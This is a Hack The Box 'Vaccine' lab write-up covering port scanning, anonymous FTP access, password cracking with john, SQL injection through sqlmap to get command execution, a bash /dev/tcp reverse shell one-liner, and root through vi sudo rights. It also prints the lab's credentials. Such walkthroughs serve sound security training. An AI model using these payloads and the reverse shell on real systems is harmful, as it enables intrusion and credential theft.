



<p align="center"></img></p>
<p align="center">Machine creator: Hack The Box</p>
<p align="center">Platform: <a href="https://www.hackthebox.com/">Hack The Box</a></p>

<br>

Vaccine is part of the tier's 2 Starting Point machines of Hack The Box.

- [Reconnaissance](#reconnaissance)
    + [Nmap Scan](#nmap-scan)
    + [Login portal](#login-portal)
    + [FTP Enumeration](#ftp-enumeration)
    + [Zip file password cracking](#zip-file-password-cracking)
    + [Login password hash cracking](#login-password-hash-cracking)
- [Foothold](#foothold)
    + [Obtaining RCE abusing SQL Injection using SQLMAP](#obtaining-rce-abusing-sql-injection-using-sqlmap)
    + [Obtaining a reverse shell](#obtaining-a-reverse-shell)
- [Privilege Escalation](#privilege-escalation)
    + [Enumerating user privileges](#enumerating-user-privileges)
    + [Escalating privileges abusing vi sudo privilege](#escalating-privileges-abusing-vi-sudo-privilege)
- [References](#references)

<br>

---

# Reconnaissance

### Nmap Scan

To begin the initial stage we are going to be using Nmap, which is a command line tool that is used to discover hosts and services on a network. It does this by sending packets, which are small units of data, and analysing the responses. Based off the responses it can tell which ports are open and what services are being run on said ports.

`-p-` flag will scan all ports, `--open` flag will report only ports that are opened, `--min-rate 5000` flag will make our scan really fast, useful for closed environments like this, `-n` flag will disable DNS resolutions, `-Pn` flag will disable ARP host discovery, `-vvv` flag will show occurrences while scan is running and `-oG` flag will export the result to said file (useful for grep, see <a href="https://github.com/oscar-rk/scripts/blob/main/Infosec/Recon/extractPorts.sh">extractPorts script</a>).

```shell
❯ nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG allPorts 10.129.95.174
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-03 18:06 CEST
Initiating SYN Stealth Scan at 18:06
Scanning 10.129.95.174 [65535 ports]
Discovered open port 21/tcp on 10.129.95.174
Discovered open port 80/tcp on 10.129.95.174
Discovered open port 22/tcp on 10.129.95.174
Completed SYN Stealth Scan at 18:06, 11.99s elapsed (65535 total ports)
Nmap scan report for 10.129.95.174
Host is up, received user-set (0.041s latency).
Scanned at 2022-09-03 18:06:06 CEST for 12s
Not shown: 65464 closed tcp ports (reset), 68 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.10 seconds
           Raw packets sent: 66181 (2.912MB) | Rcvd: 65524 (2.621MB)
```

Once we know which ports are open, we are going to run a service/version scan with default scripts.

`-sVC` will probe open ports to determine service/version information and run default scripts, `-p` flag will indicate what ports to scan and `-oN` flag will export the result to said file (default nmap format).

```shell
❯ nmap -sCV -p21,22,80 -oN targeted 10.129.95.174
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-03 18:07 CEST
Nmap scan report for 10.129.95.174
Host is up (0.040s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.67
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.88 seconds
```

### Login portal

There is a login portal in http://10.129.95.174:80 but we don't have any credentials yet.

<p align="center"></img></p>

### FTP Enumeration

We will start enumerating the FTP service trying to establish a connection in order to list shared possible shared files and get them, since we don't have any users and passwords combination yet, we will use the `anonymous` user.

```shell
❯ ftp 10.129.95.174
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:jrkz): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10134|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10434|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |*****************************************************************************************************************************************************************************************************|  2533      837.38 KiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (57.66 KiB/s)
```

### Zip file password cracking

We got a `zip` file from the FTP server, we can verify it is a `zip` using the `file` command, to check the magic numbers.

```shell
❯ file backup.zip
backup.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
```

But the file is password protected, so we will try to crack it.

We can extract the hash with `zip2john`, saving it to a destination file:

```shell
❯ zip2john backup.zip > zip.hash
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

Once the hash is obtained, using `john` we will try to crack it using the wordlist `rockyou.txt`.

```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2022-09-03 18:12) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now we can `unzip` the compressed file.

```shell
❯ unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password: 
  inflating: index.php               
  inflating: style.css
```

We will `cat` the file `index.php` to search for possible username and password combinations, since it is the login page.

### Login password hash cracking

```shell
<?php
    session_start();
    if(isset($_POST['username']) && isset($_POST['password'])) {
        if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
            $_SESSION['login'] = "true";
            header("Location: dashboard.php");
            }
        }
?>
```

We got a password but it's hashed to `md5`, so we are going to repeat the same process; save it to a file and try to crack it with `john`.

```shell
❯ echo "2cb42f8734ea607eefed3b70af13bbd3" > md5.txt
```

```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5 md5.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty789        (?)     
1g 0:00:00:00 DONE (2022-09-03 18:17) 50.00g/s 5011Kp/s 5011Kc/s 5011KC/s shunda..pogimo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

We have an username and password combination (__admin::qwerty789__) that we can use to login into the website's private area.

<p align="center"></img></p>

# Foothold

### Obtaining RCE abusing SQL Injection using SQLMAP

As we have found possibly valid credentials, now we move into the foothold stage.

Checking the website's table, we can think about SQL Injection.

We will use SQLMAP to try a possible SQL Injection on this table in order to obtain RCE.

`--os-shell` Parameter will spawn a OS shell if possible, `--forms` will tell `SQLMAP` to try the injection through the `HTML` forms and `--batch` will skip all questions.

Additionally, we need to specify our session cookie for SQLMAP to work, we can find it using the Developer Tools of our web browser.

<p align="center"></img></p>

```shell
❯ sqlmap http://http://10.129.95.174/dashboard.php --cookie="PHPSESSID=dfmijaugc0b208fm48ij06bhg3" --os-shell --forms --batch
```

Those are the payloads `SQLMAP` found to be valid:

```shell
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=sgfh' AND (SELECT (CASE WHEN (5021=5021) THEN NULL ELSE CAST((CHR(73)||CHR(70)||CHR(76)||CHR(75)) AS NUMERIC) END)) IS NULL-- pNGw

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=sgfh' AND 5875=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (5875=5875) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(98)||CHR(98)||CHR(106)||CHR(113)) AS NUMERIC)-- Rjwr

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=sgfh';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=sgfh' AND 6747=(SELECT 6747 FROM PG_SLEEP(5))-- eXNX
```

So now we have RCE through SQLMAP.

We can now `cat` the user flag inside `/var/lib/postgresql/11/main`

### Obtaining a reverse shell

```shell
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[18:22:23] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
```

In order to get a reverse shell, for easier navigation, we will start a listener using `nc` and send it using the `SQLMAP` shell.

```shell
nc -nlvp 4444
```
```shell
bash -c 'bash -i >& /dev/tcp/10.10.14.67/4444 0>&1'
```

Once we have the reverse shell, we can try to `cat` the `dashboard.php` file in order to find more possible credentials or useful information.
We will see that it is making a connection to the local database using the user `postgres` and it's password.

```shell
<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
```

We have another username and password combination (__postgres::P@s5w0rd!__)

# Privilege Escalation

### Enumerating user privileges

One of the first things to always try, is to run the command `sudo -l` to check if the current user has any permission to execute binaries as the `root` user.

```shell
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We find that the user `postgres` can execute `/bin/vi` to edit the file `/etc/postgresql/11/main/pg_hba.conf``.

In this case, we can abuse that privilege to spawn a `root` console using the integrated commands in the 'vi' binary.

### Escalating privileges abusing vi sudo privilege

First, we execute the command as listed above.

```shell
postgres@vaccine:/var/lib/postgresql/11/main$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

And then, inside `vi`, we press `ESCAPE`, `:` to indicate shell commands and `!/bin/sh` to spawn the privileged console.

```shell
# whoami
root
# 
```

We are now `root` and successfully finished the challenge!
We can `cat` the root flag inside `/root`

---

# References

|__`Abusing vi sudo privilege`__|__https://gtfobins.github.io/gtfobins/vi/#sudo__|
|:-|:-|

<br>
<br>

___─ Written by <a href="https://github.com/oscar-rk">oscar-rk</a> ─___